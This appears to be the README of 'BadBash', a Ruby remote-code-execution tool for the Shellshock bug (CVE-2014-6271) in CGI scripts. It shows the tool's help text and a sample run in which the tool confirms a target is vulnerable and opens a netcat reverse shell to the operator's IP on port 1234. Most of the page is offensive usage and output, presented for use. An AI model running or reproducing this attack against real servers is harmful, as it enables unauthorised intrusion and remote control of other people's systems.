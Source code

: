 ================================================================================================

BadBash is a CVE-2014-6271 RCE tool. The basic version only checks for the HTTP CGI site and only provides netcat reverse shell on port 1234.


Developer : Andy Yang
Version : 0.1.0
License : GPLv3

================================================================================================
RainMak3r@Could:~/Desktop# ruby BadBash.rb  -h
   ___           _   ___          _     
  / __\ __ _  __| | / __ __ _ ___| |__  
 /__\/// _` |/ _` |/__\/// _` / __| '_ \ 
/ \/  \ (_| | (_| / \/  \ (_| \__ \ | | |      Basic Version - 0.1 by Andy Yang
\_____/\__,_|\__,_\_____/\__,_|___/_| |_|      contactayang[AT]gmail[DOT]com
                                 
BadBash - CVE-2014-6271 RCE tool by Andy Yang
Basic version only checks for HTTP site
Basic version only provides netcat reverse shell on port 1234

EXAMPLE USAGE:
     ./BBash.rb  -t 'www.target.com/cgi-folder/cgi.sh' -d '127.0.0.1'
     ./BBash.rb  -t '10.0.0.1/cgi-folder/cgi.sh' -d '127.0.0.1'
    -t, --Target CGI path            Full path of CGI page
    -d, --Destination IP             Your IP address that listen to an inbound connection
    -h, --help                       Display help

================================================================================================
Example of usage.
================================================================================================
RainMak3r@Could:~/Desktop#ruby BadBash.rb -t '172.16.235.140/cgi-bin/Andy.sh' -d '172.16.189.1'

[Info]     Checking if the target is vulnerable........

[Info]     This may take up to 10 seconds........

[Info]     Target is vulnerable!!!

[Info]     Please use NC to listen on port 1234 for reverse shell..........

[Info]     Exploiting for a reverse shell to connect 172.16.189.1:1234 via netcat ..........


